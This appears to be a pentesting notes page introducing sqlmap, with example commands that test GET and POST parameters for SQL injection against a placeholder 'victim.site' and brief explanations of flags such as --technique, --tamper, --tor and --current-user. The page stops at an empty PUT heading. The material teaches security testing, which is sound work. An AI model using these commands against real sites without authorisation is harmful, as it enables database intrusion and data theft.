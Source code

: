 ```yaml
---
title: sqlmap - A tool for testing SQL injection
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting 
---
```

# sqlmap - A tool for testing SQL injection

[SQLMap](https://github.com/sqlmapproject/sqlmap) is a free and open-source penetration testing tool written in Python that automates the process of detecting and exploiting SQL injection (SQLi) flaws.


```
# List supported SQL Injection Types
sqlmap -hh
```


## GET parameter

```bash
sqlmap -u ‘http://victim.site/view.php?id=112’ -p id --technique=U -parse-errors
# -u / --url: to indicate the target
# -p: to indicate an injectable parameter 
# --technique=U  //to indicate a UNION based SQL injection technique // E: error based  // 
# -b / --banner: banner of the database
# --tor: to use a proxy to connect to the target URL
# -v3: to see the payloads that sqlmap is using
# --flush-session: to refresh sessions
# --tamper: default tampers are in /usr/share/sqlmap/tamper
# --parse-errors: To parse the DBMS errors (if any) and displays them as part of the program run
# --current-user: It returns the current user in the database
```

## POST parameter

```bash
sqlmap -u <URL> --data=<POST string> -p parameter [options]
```

A nice trick here is utilizing Copy as cURL feature from within the Network (Monitor) panel inside the Chrome, Edge, or Firefox Developer Tools. By pasting the clipboard content (Ctrl-V) into the command line, and changing the original command curl to sqlmap, we are able to use SQLMap with the identical curl command.


## PUT method
